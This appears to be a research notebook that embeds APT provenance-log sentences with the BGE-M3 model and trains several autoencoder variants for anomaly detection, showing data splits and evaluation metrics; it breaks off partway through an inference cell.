# Anomaly detection on Cyber APTs using LLM.
Detction of anomalies in APTs using encoder based (BERT architectures) methods, the Decoder based (LLM-generated) and the proprietary methods.

The models will be used are:
1. Group A: The "Encoder" Family (BERT-Based)
- BAAI/bge-m3 (The Modern King)
- Alibaba-NLP/gte-large-en-v1.5
- BAAI/bge-large-en-v1.5
- all-mpnet-base-v2
- facebook/contriever
- jinaai/jina-embeddings-v3
- nomic-ai/nomic-embed-text-v1.5
- answerdotai/ModernBERT-large (or base)

2. Group B: The "Decoder" Family (LLM-Based)
- nvidia/NV-Embed-v2
- Alibaba-NLP/gte-Qwen2-7B-instruct
- intfloat/e5-mistral-7b-instruct
- Salesforce/SFR-Embedding-Mistral
- linq-ai/linq-embed-mistral
- GritLM/GritLM-7B
- McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp

3. Group C: The "Large-Scale" models (Massive/Proprietary)
- openai/text-embedding-3-large (Paid API)
- sentence-transformers/gtr-t5-large

4. Angle-Optimized Models
- WhereIsAI/UAE-Large-V1

5. Static Embeddings
- dunzhang/stella_en_400M_v5

6. Industrial API based models
- cohere-embed-english-v3.0 (Cohere API)
- voyage-large-2

## DATA

In [5]:
import pickle
import pandas as pd

# 1. Define the file path
FILE_PATH = "all_data_with_sentences.pkl"

print(f"Loading {FILE_PATH}...\n")

try:
    # 2. Open and load the pickle file
    with open(FILE_PATH, "rb") as f:
        data = pickle.load(f)
        
    print("✅ File loaded successfully!\n")
    print("=" * 60)
    print("FILE STRUCTURE:")
    print("=" * 60)
    
    # 3. Explore the structure
    # The data is structured as: data[performer][context] = DataFrame
    for performer in data.keys():
        print(f"Performer: {performer}")
        for context in data[performer].keys():
            df = data[performer][context]
            print(f"  -> Context: {context} (Total Rows: {len(df)})")
            
    print("\n" + "=" * 60)
    print("SAMPLE SENTENCES (From the first dataset):")
    print("=" * 60)
    
    # 4. Grab the first performer and context to show some sample text
    first_performer = list(data.keys())[0]
    first_context = list(data[first_performer].keys())[0]
    sample_df = data[first_performer][first_context]
    
    # Figure out what the text column is called ('sentence' or 'text')
    text_col = 'sentence' if 'sentence' in sample_df.columns else 'text'
    label_col = 'label' if 'label' in sample_df.columns else 'y'
    
    print(f"Viewing data for: {first_performer} -> {first_context}\n")
    
    # Print the first 5 sentences
    for index, row in sample_df.tail(5).iterrows():
        sentence = row[text_col]
        label = row[label_col]
        status = "ANOMALY" if label == 1 else "NORMAL"
        
        print(f"[{status}] Log: {sentence}")
        print("-" * 40)

except FileNotFoundError:
    print(f"❌ Error: Could not find '{FILE_PATH}'. Make sure it is in the same folder as this script!")
except Exception as e:
    print(f"❌ An error occurred: {e}")

Loading all_data_with_sentences.pkl...

✅ File loaded successfully!

FILE STRUCTURE:
Performer: 5dir
  -> Context: ProcessEvent (Total Rows: 11151)
  -> Context: ProcessExec (Total Rows: 11077)
  -> Context: ProcessParent (Total Rows: 10992)
  -> Context: ProcessNetflow (Total Rows: 329)
  -> Context: ProcessAll (Total Rows: 11151)
Performer: cadets
  -> Context: ProcessEvent (Total Rows: 224624)
  -> Context: ProcessExec (Total Rows: 224146)
  -> Context: ProcessParent (Total Rows: 223780)
  -> Context: ProcessNetflow (Total Rows: 42888)
  -> Context: ProcessAll (Total Rows: 224624)
Performer: clearscope
  -> Context: ProcessEvent (Total Rows: 12106)
  -> Context: ProcessExec (Total Rows: 12106)
  -> Context: ProcessParent (Total Rows: 24)
  -> Context: ProcessNetflow (Total Rows: 1116)
  -> Context: ProcessAll (Total Rows: 12106)
Performer: theia
  -> Context: ProcessEvent (Total Rows: 270652)
  -> Context: ProcessExec (Total Rows: 278363)
  -> Context: ProcessParent (Total Rows: 279

## Group A: The "Encoder" models (BERT-based)

### 1. `BAAI/bge-m3`

#### Embedding generation

In [2]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
from transformers import AutoTokenizer, AutoModel

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'BAAI/bge-m3'

# BGE-M3 is an efficient BERT-based model (Encoder).
# On 11GB VRAM (FP16), you can likely handle Batch Size 32 or 64.
BATCH_SIZE = 32

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

print(f"Loading model: {MODEL_NAME}...")

# Load Tokenizer & Model
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME)
model = AutoModel.from_pretrained(MODEL_NAME, torch_dtype=torch.float16)

# Move to GPU
print(f"Moving model to {device}...")
model.to(device)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: CLS POOLING
# ==========================================
def get_bge_embeddings(text_list, model, tokenizer, batch_size=32):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        batch_texts = text_list[i : i + batch_size]
        
        # Tokenize
        # BGE-M3 supports long context (8192), but for logs, 1024 is usually plenty.
        # Reducing max_length speeds up processing.
        batch_dict = tokenizer(
            batch_texts, 
            max_length=1024, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            outputs = model(**batch_dict)
            
            # [CRITICAL] BGE-M3 uses the [CLS] token (Index 0) for dense embeddings
            embeddings = outputs.last_hidden_state[:, 0]
            
            # Normalize (Critical for Cosine Similarity/Anomaly Detection)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            all_embeddings.extend(embeddings.cpu().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_bge_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_bge_m3"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save BGE-M3 chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_bge_m3.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All BGE-M3 data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm


Using device: CUDA
Loading model: BAAI/bge-m3...


c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\huggingface_hub\file_download.py:143: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\Waleed\.cache\huggingface\hub\models--BAAI--bge-m3. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support symlinks on Windows, you either need to activate Developer Mode or to run Python as an administrator. In order to activate developer mode, see this article: https://docs.microsoft.com/en-us/windows/apps/get-started/enable-your-device-for-development
  warnings.warn(message)
`torch_dtype` is deprecated! Use `dtype` instead!
c:\Users\Waleed\AppData\Local\Programs\Python\Pyth

Moving model to cuda...
Loading data from all_data_with_sentences.pkl...

GENERATING EMBEDDINGS (BAAI/bge-m3)

--- Processing Performer: 5DIR ---
  -> ProcessEvent (11151 rows)...
    Processed 11151/11151...
     ✓ Done.
  -> ProcessExec (11077 rows)...
    Processed 11077/11077...
     ✓ Done.
  -> ProcessParent (10992 rows)...
    Processed 10992/10992...
     ✓ Done.
  -> ProcessNetflow (329 rows)...
    Processed 329/329...
     ✓ Done.
  -> ProcessAll (11151 rows)...
    Processed 11151/11151...
     ✓ Done.

--- Processing Performer: CADETS ---
  -> ProcessEvent (224624 rows)...
    Processed 224624/224624...
     ✓ Done.
  -> ProcessExec (224146 rows)...
    Processed 224146/224146...
     ✓ Done.
  -> ProcessParent (223780 rows)...
    Processed 223780/223780...
     ✓ Done.
  -> ProcessNetflow (42888 rows)...
    Processed 42888/42888...
     ✓ Done.
  -> ProcessAll (224624 rows)...
    Processed 224624/224624...
     ✓ Done.

--- Processing Performer: CLEARSCOPE ---
  -> Pro

#### Train Test split 

In [1]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your BGE-M3 generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_bge_m3" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_bge_m3"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing BGE-M3 suffixes
    key_name = filename.replace(".pkl", "").replace("_bge_m3", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
    test_file = os.path.join(test_dir, f"{context}.pkl")
    with open(test_file, 'wb') as f:
        pickle.dump({'X': X_test, 'y': y_test}, f)
        
    print(f"  ✓ Saved to: {train_file} and {test_file}")


# ==========================================
# 2. EXECUTION LOOP
# ==========================================
print(f"Saving organized datasets to: {os.path.abspath(BASE_DIR)}")
print("-" * 80)

if not os.path.exists(SOURCE_FOLDER):
    print(f"[!] Error: The input folder '{SOURCE_FOLDER}' does not exist.")
else:
    files = [f for f in os.listdir(SOURCE_FOLDER) if f.endswith(".pkl")]
    
    if not files:
        print(f"[!] No .pkl files found inside {SOURCE_FOLDER}")
    else:
        print(f"Found {len(files)} datasets. Starting load, split, and save process...\n")
        
        for file in files:
            full_path = os.path.join(SOURCE_FOLDER, file)
            try:
                process_and_save(full_path)
            except MemoryError:
                print(f"  [CRITICAL] MemoryError while processing {file}. RAM is full.")
            except Exception as e:
                print(f"  [!] Unexpected error on {file}: {e}")

print("\n" + "="*80)
print("ORGANIZED SAVE COMPLETE FOR BGE-M3!")
print("="*80)

Saving organized datasets to: d:\Waleed FYP\final_train_test_split_bge_m3
--------------------------------------------------------------------------------
Found 25 datasets. Starting load, split, and save process...


Processing: 5dir_ProcessAll_bge_m3.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_bge_m3\5dir\train\ProcessAll.pkl and final_train_test_split_bge_m3\5dir\test\ProcessAll.pkl

Processing: 5dir_ProcessEvent_bge_m3.pkl...
  -> Raw Counts: 11142 Benign, 9 Anomalous
  -> Split Complete. Train: (8913, 1024), Test: (2238, 1024)
  ✓ Saved to: final_train_test_split_bge_m3\5dir\train\ProcessEvent.pkl and final_train_test_split_bge_m3\5dir\test\ProcessEvent.pkl

Processing: 5dir_ProcessExec_bge_m3.pkl...
  -> Raw Counts: 11068 Benign, 9 Anomalous
  -> Split Complete. Train: (8854, 1024), Test: (2223, 1024)
  ✓ Saved to: final_train_test_split_bge_m3\5dir\train\ProcessExec.pkl and fi

#### Training and saving `.pth` files 

In [ ]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
import torch.optim as optim
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Updated directories for BGE-M3
BASE_DIR = "final_train_test_split_bge_m3"
RESULTS_FILE = "results_all_autoencoders_bge_m3.csv"
MODEL_SAVE_DIR = "saved_weights_bge_m3"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# Hyperparameters
BATCH_SIZE = 128    
EPOCHS = 15         
LR = 0.001          
# [CRITICAL] BAAI/bge-m3 uses 1024 dimensions
INPUT_DIM = 1024    

# Specialty Hyperparameters
NOISE_FACTOR = 0.2  # Denoising AE
SPARSE_REG = 1e-4   # Sparse AE L1 penalty
BETA = 4.0          # Beta-VAE weight
CAE_LAMBDA = 1e-4   # Contractive AE Jacobian penalty

os.makedirs(MODEL_SAVE_DIR, exist_ok=True)
print(f"Running on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES
# ==========================================

# --- 1, 3, 4, 10, 11. Vanilla AE (Used for Baseline, DAE, Sparse, Robust, Contractive) ---
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# --- 2. Deep SVDD (Encoder mapping to hypersphere center) ---
class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 128) # Small latent space
        )
    def forward(self, x):
        return self.encoder(x)

# --- 5, 6. Variational AE (Used for VAE and Beta-VAE) ---
class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)

    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)

    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std

    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

# --- 7. GMVAE (Simplified Gaussian Mixture VAE) ---
class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu = nn.Linear(1024, 256)
        self.logvar = nn.Linear(1024, 256)
        self.pi = nn.Linear(1024, n_components) # Categorical prior
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
        
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

# --- 8. Attention AE ---
class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
        
    def forward(self, x):
        # Self-attention requires 3D shape: (batch, seq, feature)
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        attn_out = attn_out.squeeze(1)
        return self.decoder(self.encoder(attn_out))

# --- 9. LSTM AE ---
class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
        
    def forward(self, x):
        # Fake sequence length of 1
        x_seq = x.unsqueeze(1)
        _, (hidden, _) = self.encoder(x_seq)
        # Repeat hidden state for decoder (seq_len = 1)
        hidden_rep = hidden[-1].unsqueeze(1)
        out, _ = self.decoder(hidden_rep)
        return out.squeeze(1)


# ==========================================
# 3. GENERIC TRAINING FUNCTION
# ==========================================
def train_model(model_name, X_train, X_test, y_test, performer, context):
    
    # Initialize appropriate model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    optimizer = optim.Adam(model.parameters(), lr=LR)
    criterion = nn.L1Loss() if model_name == 'Robust' else nn.MSELoss()

    train_loader = DataLoader(TensorDataset(torch.FloatTensor(X_train).to(DEVICE)), batch_size=BATCH_SIZE, shuffle=True)
    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()
    model.train()
    
    for epoch in range(EPOCHS):
        for batch in train_loader:
            x_batch = batch[0]
            model_input = x_batch
            
            if model_name == 'DAE':
                model_input = x_batch + torch.randn_like(x_batch) * NOISE_FACTOR

            optimizer.zero_grad()
            
            # Forward & Loss branching
            if model_name == 'Deep SVDD':
                z = model(model_input)
                loss = torch.mean(torch.sum((z - center) ** 2, dim=1))
            
            elif model_name in ['VAE', 'Beta-VAE']:
                recon, mu, logvar = model(model_input)
                recon_loss = nn.functional.mse_loss(recon, x_batch, reduction='sum')
                kld_loss = -0.5 * torch.sum(1 + logvar - mu.pow(2) - logvar.exp())
                beta = BETA if model_name == 'Beta-VAE' else 1.0
                loss = recon_loss + beta * kld_loss
                
            elif model_name == 'GMVAE':
                recon, mu, logvar, pi = model(model_input)
                loss = nn.functional.mse_loss(recon, x_batch) 
                
            else:
                recon = model(model_input)
                loss = criterion(recon, x_batch)
                
                # Special Penalties
                if model_name == 'Sparse':
                    l1_penalty = sum(p.abs().sum() for p in model.encoder.parameters())
                    loss += SPARSE_REG * l1_penalty
                elif model_name == 'Contractive':
                    hidden = model.encoder(x_batch)
                    loss += CAE_LAMBDA * torch.sum(hidden ** 2)

            loss.backward()
            optimizer.step()
            
    train_time = time.time() - start_time

    # --- SAVE WEIGHTS FOR SHAP/LIME ---
    weight_filename = f"{performer}_{context}_gte_large_{model_name.replace(' ', '')}.pth"
    torch.save(model.state_dict(), os.path.join(MODEL_SAVE_DIR, weight_filename))

    # --- EVALUATION ---
    model.eval()
    errors = []
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # --- METRICS CALCULATION ---
    try:
        # 1. Continuous Threshold-Independent Metrics
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # 2. Dynamic Thresholding for Discrete Metrics (Max F1 Score)
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        
        # Calculate F1 scores for all thresholds, handling zero division
        f1_scores = np.divide(
            2 * precisions * recalls, 
            precisions + recalls, 
            out=np.zeros_like(precisions), 
            where=(precisions + recalls) != 0
        )
        
        # Find the threshold that maximizes the F1 score
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        # Generate Binary Predictions based on optimal threshold
        y_pred = (errors >= best_threshold).astype(int)
        
        # 3. Calculate Final Discrete Metrics
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    return {
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Time(s)": round(train_time, 2)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    # Ignore hidden folders like .cache
    performers = [
        p for p in os.listdir(BASE_DIR) 
        if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')
    ]
    
    for performer in performers:
        train_dir = os.path.join(BASE_DIR, performer, "train")
        test_dir = os.path.join(BASE_DIR, performer, "test")
        
        if not os.path.exists(train_dir) or not os.path.exists(test_dir):
            print(f"  [!] Skipping '{performer}' - Train or Test subfolders missing.")
            continue
            
        files = [f for f in os.listdir(train_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nProcessing: {performer.upper()} - {context}")
            
            try:
                with open(os.path.join(train_dir, file), 'rb') as f:
                    X_train = pickle.load(f)['X']
                with open(os.path.join(test_dir, file), 'rb') as f:
                    pkg = pickle.load(f)
                    X_test = pkg['X']
                    y_test = pkg['y']
                
                print(f"  Samples: {len(X_train)} Train | {len(X_test)} Test")

                for m_name in models_to_run:
                    print(f"    -> Training {m_name}...", end=" ")
                    res = train_model(m_name, X_train, X_test, y_test, performer, context)
                    
                    res['Performer'] = performer
                    res['Context'] = context
                    all_results.append(res)
                    print(f"Done. AUC: {res['AUC-ROC']} | PR-AUC: {res['PR-AUC']} | F1: {res['F1-Score']}")

            except Exception as e:
                print(f"    [!] Failed: {e}")

# ==========================================
# 5. SAVE RESULTS
# ==========================================
if all_results:
    df_res = pd.DataFrame(all_results)
    # Reordered columns to include all metrics cleanly
    df_res = df_res[['Performer', 'Context', 'Model', 'AUC-ROC', 'PR-AUC', 'Precision', 'Recall', 'F1-Score', 'Accuracy', 'Time(s)']]
    df_res.to_csv(RESULTS_FILE, index=False)
    
    print("\n" + "="*60)
    print("FINAL RESULTS SUMMARY")
    print("="*60)
    print(df_res.to_string(index=False))
    print(f"\nSaved metrics to {RESULTS_FILE}")
    print(f"Saved model weights to ./{MODEL_SAVE_DIR}/")
else:
    print("No results to save.")

Running on Device: CUDA
------------------------------------------------------------

Processing: 5DIR - ProcessAll
  Samples: 8913 Train | 2238 Test
    -> Training Baseline... Done. AUC: 0.9422 | PR-AUC: 0.0522 | F1: 0.1395
    -> Training Sparse... Done. AUC: 0.9173 | PR-AUC: 0.0352 | F1: 0.1026
    -> Training Deep SVDD... Done. AUC: 0.9538 | PR-AUC: 0.0844 | F1: 0.1667
    -> Training DAE... Done. AUC: 0.9393 | PR-AUC: 0.0409 | F1: 0.125
    -> Training VAE... Done. AUC: 0.88 | PR-AUC: 0.0287 | F1: 0.086
    -> Training Beta-VAE... Done. AUC: 0.9159 | PR-AUC: 0.0297 | F1: 0.0741
    -> Training GMVAE... Done. AUC: 0.9292 | PR-AUC: 0.0378 | F1: 0.093
    -> Training Attention AE... Done. AUC: 0.9389 | PR-AUC: 0.0446 | F1: 0.1081
    -> Training LSTMAE... Done. AUC: 0.9391 | PR-AUC: 0.0391 | F1: 0.0976
    -> Training Robust... Done. AUC: 0.9329 | PR-AUC: 0.0358 | F1: 0.0889
    -> Training Contractive... Done. AUC: 0.9188 | PR-AUC: 0.0354 | F1: 0.1

Processing: 5DIR - ProcessEvent


KeyboardInterrupt: 

In [2]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
BASE_DIR = "final_train_test_split_bge_m3"
MODEL_SAVE_DIR = "saved_weights_bge_m3"
RESULTS_FILE = "NEW_comprehensive_metrics_bge_m3.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

INPUT_DIM = 1024 # Keep exactly as it was during training

print(f"Running INFERENCE ONLY on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
